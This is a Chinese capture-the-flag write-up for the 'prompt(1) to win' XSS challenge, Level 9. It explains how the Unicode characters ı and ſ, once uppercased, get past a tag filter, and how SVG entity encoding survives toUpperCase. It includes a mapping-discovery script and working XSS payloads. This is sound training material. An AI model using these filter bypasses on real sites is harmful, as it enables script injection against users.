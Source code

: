 ## [[prompt(1) to win](http://prompt.ml)] [[Level 9 – ECMAScript](http://prompt.ml/9)] [[解题报告](http://exp-blog.com/2019/03/24/pid-3691/)]

------

## 题目

```javascript
function escape(input) {
    // filter potential start-tags
    input = input.replace(/<([a-zA-Z])/g, '<_$1');
    // use all-caps for heading
    input = input.toUpperCase();

    // sample input: you shall not pass! => YOU SHALL NOT PASS!
    return '<h1>' + input + '</h1>';
}
```

## 解题报告

### 利用 toUpperCase

这题用正则 `<([a-zA-Z])` 把所有正常标签都过滤成了 `<_` ，而我们的输入内容都在 `<h1>` 标签里面，导致常规可以注入 JS 的标签基本都失效。

不过注意到题目会把我们输入的内容使用 `toUpperCase` 方法全部转换成大写。

一般情况下这个方法只对 ASCII 小写字母起作用，但是根据 [ECAMScript 定义](http://ecma-international.org/ecma-262/5.1/#sec-15.5.4.18)，这个方法对部分 Unicode 字符也会起作用，即它有意把某些 Unicode 字符映射到某些 ASCII 字符（串）。

![](http://exp-blog.com/wp-content/uploads/2019/03/8d5048a03e2d2ecc4641ed518e5f09d6.png)

但是我们不清楚这个具体的映射表是什么，是否可利用。

于是我简单写了这个 JS 代码，拷贝到浏览器的控制台运行，即可把 Unicode 通过 `toUpperCase` 方法映射到 ASCII 的映射表打印出来（*此代码只打印了 XSS 可能会用到的 ASCII 字符，并未把全部字符列印*）：

```javascript
UNICODE_RANGE = 65000;
XSS_ASCII_RANGE = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ\"/?><';:.,|\\+=-_*&^%$#@!~`\r\n"
for (i = 0; i < UNICODE_RANGE; i++) {
    raw_ch = String.fromCharCode(i)
    low_ch = "";
    upp_ch = "";

    if (XSS_ASCII_RANGE.includes(raw_ch.toLowerCase())) {
        low_ch = raw_ch.toLowerCase();
    }

    if (XSS_ASCII_RANGE.includes(raw_ch.toUpperCase())) {
        upp_ch = raw_ch.toUpperCase();
    }

    if ((low_ch != "" || upp_ch != "") && !(XSS_ASCII_RANGE.includes(raw_ch))) {
        console.log(
            "Unicode-Idx: [" + i + "], " + 
            "Raw-Unicode: [" + raw_ch + "], " + 
            "Unicode-Hex: [\\u" + (i).toString(16) + "], " + 
            "To-LowerCase-ASCII: [" + low_ch + "], " + 
            "To-UpperCase-ASCII: [" + upp_ch + "]");
    }
}
```

![](http://exp-blog.com/wp-content/uploads/2019/03/af4807b7e24620b22db5143800b951f6.png)

用运行结果来看，有两个字符的映射是明显对我们有用的：

- Unicode 的 `ı` 通过 `toUpperCase` 会被转换成 ASCII 的 `I`
- Unicode 的 `ſ` 通过 `toUpperCase` 会被转换成 ASCII 的 `S`

> 可以映射到 `ST` 的两个字符 `ﬅ` 或 `ﬆ` 也是可以利用的，只是相对没那么方便。

换言之，只要我们输入 `<ı` 或 `<ſ` ，即可绕过题目对标签名的正则过滤，而题目的 `toUpperCase` 方法又会帮我们将他们转换成 `<I` 或 `<S` 。

由于 HTML 的标签名和属性名都是大小写不敏感的，因此我们就可以利用这个特点，注入以 `I` 或 `S` 开头的标签。

由此首先想到可以的标签就有 3 个 ： `<IMG>` 、`<SCRIPT>` 、`<SVG>`

------------


### 绕过 toUpperCase

于是尝试注入 payload `<ımg src=0 onerror=prompt(1) />`

虽然成功注入为 `<IMG SRC=0 ONERROR=PROMPT(1) />` ，但是在触发 `onerror` 事件时报错：

`Uncaught ReferenceError: PROMPT is not defined`

原因是 JS 对函数名是大小写敏感的，而 `prompt` 也被转换成了大写。

![](http://exp-blog.com/wp-content/uploads/2019/03/ba3054766ee6cb5ebf31983ce0938c44.png)

此时我想到可以利用 `<svg>` **运行时才解析实体编码**的特性，对大写转换进行绕过。

即先把 `prompt` 编码成 `&#112;&#114;&#111;&#109;&#112;&#116;` ，这样实体编码在输出到前端之前， `toUpperCase` 对它就不起作用了。

然后再使用 `<svg>` 标签包围实体编码，实体编码就能在输出到前端后、在运行时被解析还原成 `prompt` 。

于是把 payload 修改成这样，完成挑战：

`<ſvg><ımg src=0 onerror=&#112;&#114;&#111;&#109;&#112;&#116;(1) /></svg>`

![](http://exp-blog.com/wp-content/uploads/2019/03/5d6a16a3831fbcf229822b32080fd9a2.png)

这个 payload 也是可以完成挑战的，相对简单点：

`<ſvg><ſcript>&#112;&#114;&#111;&#109;&#112;&#116;(1)</script></svg>`

![](http://exp-blog.com/wp-content/uploads/2019/03/e2886716d4959ca41b4f2ac0eb3412b8.png)

------

## 版权声明

　[![Copyright (C) 2016-2019 By EXP](https://img.shields.io/badge/Copyright%20(C)-2016~2019%20By%20EXP-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------
